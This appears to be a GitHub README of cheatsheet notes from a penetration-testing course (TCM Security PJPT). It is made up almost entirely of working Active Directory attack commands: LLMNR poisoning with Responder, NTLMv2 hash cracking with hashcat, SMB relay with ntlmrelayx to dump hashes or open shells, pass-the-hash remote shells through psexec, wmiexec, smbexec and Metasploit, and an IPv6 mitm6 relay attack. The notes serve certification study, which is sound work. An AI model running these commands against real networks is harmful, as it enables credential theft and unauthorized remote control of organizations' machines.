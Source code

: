 # PJPT-Notes
Cheatsheet from the PJPT course of TCM security.

# Enumeration
```bash
sudo arp-scan -l
```
```bash
netdiscover -r 192.168.5.0/24
```

```bash
nmap -T4 -p- -A 192.168.5.0/24
nmap -T4 -p- -A 192.168.5.1

nmap -T4 -p- -sS -sC 192.168.5.0/24
```

# Initial attacks for Active Directory
## LLMNR Poisoning
1. Start Responder, to capture NTLMv2 hashes
```bash
sudo responder -I tun0 -dP
```
2. If NTLMv2 hash was captured, copy it, save it to a txt file and crack it with hashcat
```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

## SMB Relay attack
<p>This attacks works, when SMB signing is disabled on the machines.</p>
1. Enumerate, if SMB signing is disabled
```bash
nmap -p445 192.168.5.0/24 --script=smb2-security-mode
```
2. Make changes in the Responder configuration

```bash
sudo nano /etc/responder/Responder.conf

SMB = Off
HTTP = Off
```

3. Start Responder
```bash
sudo responder -I tun0 -dP
```
4. Setup the relay
```bash
# to dump password hashes
sudo ntlmrelayx.py -tf targets.txt -smb2support

# to create a interactive shell
sudo ntlmrelayx.py -tf targets.txt -smb2support -i

# to run commands to proof
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

# Gaining Shell Access
## Psexec
<p>Create a shell with psexec</p>

```bash
# for domain users
psexec.py test.local/fcastle:'Password1'@192.168.5.1

# for local users
psexec.py fcastle:'Password1'@192.168.5.1

# with local user and password hash
psexec.py Administrator@192.168.5.1 --hashes [LM-hash]:[NTLM-hash]
```

## Wmiexec
<p>Create a shell with wmiexec</p>

```bash
# with local user and password hash
wmiexec.py Administrator@192.168.5.1 --hashes [LM-hash]:[NTLM-hash]
```

## Smbexec
<p>Create a shell with smbexec</p>

```bash
# with local user and password hash
smbexec.py test.local/fcastle:'Password1'@192.168.5.1
```

## Metasploit
<p>Create a shell with metasploit</p>

```bash
use exploit/windows/smb/psexec
set SMBDomain test.local
set SMBUser fcastle
set SMBPass Password1
```

# IPv6 attacks
<p>If IPv6 is activated in the network, but no DNS server in use, we can imitate one.</p>

1. Open mitm6 for target domain
```bash
sudo mitm6 -d test.local
```

2. Start Ntlmrelayx.py
```bash
Ntlmrelayx.py -6 -t ldaps://192.168.5.1 -wh fakewpad.test.local -l lootme
```

3. You results will save into: '**/home/kali/lootme/domain_computers.html**'
